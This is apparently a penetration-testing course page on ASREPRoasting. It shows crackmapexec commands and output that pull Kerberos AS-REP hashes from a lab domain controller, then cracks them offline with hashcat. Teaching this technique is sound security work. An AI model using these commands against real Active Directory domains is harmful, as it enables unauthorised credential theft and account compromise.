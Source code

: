 # Finding ASREPRoastable Accounts

The `ASREPRoast` attack looks for users without Kerberos pre-authentication required. That means that anyone can send an `AS_REQ` request to the KDC on behalf of any of those users and receive an `AS_REP` message. This last kind of message contains a chunk of data encrypted with the original user key derived from its password. Then, using this message, the user password could be cracked offline if the user chose a relatively weak password. To learn more about this attack, check out the module [Active Directory Enumerations & Attacks](https://academy.hackthebox.com/module/details/143/).

If we do not have an account on the domain but have a username list, we maybe get lucky and find an account with the option that does not require Kerberos pre-authentication. If this option is set, it allows us to find encrypted data that can be decrypted with the user's password.

We can use the `LDAP` protocol with the list of users we previously found with the option `--asreproast` followed by a file name and specify the FQDN of the DC as a target. We will search for each account inside the file `users.txt` to identify if there is a least one account vulnerable to this attack:

### **Bruteforcing Accounts for ASREPRoast**

```shell-session
$ crackmapexec ldap dc01.inlanefreight.htb -u users.txt -p '' --asreproast asreproast.out

SMB         dc01.inlanefreight.htb 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
LDAP        dc01.inlanefreight.htb 445    DC01             $krb5asrep$23$robert@INLANEFREIGHT.HTB:1674ae058d5280dbc25ee678ee938c71$7277ce57387[SNIP]
```

Based on our list, we found one account vulnerable to ASREPRoasting. We can request all accounts that do not require Kerberos pre-authentication if we have valid credentials. Let's use Grace's credentials to request all accounts vulnerable to ASREPRoast.

### **Search for ASREPRoast Accounts**

```shell-session
$ crackmapexec ldap dc01.inlanefreight.htb -u grace -p Inlanefreight01! --asreproast asreproast.out

SMB         dc01.inlanefreight.htb 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
LDAP        dc01.inlanefreight.htb 389    DC01             [+] inlanefreight.htb\grace:Inlanefreight01! 
LDAP        dc01.inlanefreight.htb 389    DC01             [*] Total of records returned 6
LDAP        dc01.inlanefreight.htb 389    DC01             $krb5asrep$23$robert@INLANEFREIGHT.HTB:5567a4d9df8894497ce50c74c15cbe74$[SNIP]
LDAP        dc01.inlanefreight.htb 389    DC01             $krb5asrep$23$noemi@INLANEFREIGHT.HTB:be96a4ea9e79a3f21c2984fc8b75d1f6$[SNIP]
```

Once we get all the hash, we can use Hashcat with module 18200 and try to crack them. Let's use the `rockyou.txt` wordlist and attempt to crack those hashes:

### **Password Cracking**

```shell-session
$ hashcat -m 18200 asreproast.out /usr/share/wordlists/rockyou.txt 

hashcat (v6.1.1) starting...                   
                                                                                               
<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344386
* Bytes.....: 139921355
* Keyspace..: 14344386

$krb5asrep$23$noemi@INLANEFREIGHT.HTB:40d78fb0fd99b5070f8e519670e72f01$[SNIP]:Password!

<SNIP>
```

We found another way to find a valid account on the domain, which would allow us to gather much more information on the environment and perhaps start to compromise hosts or other users.
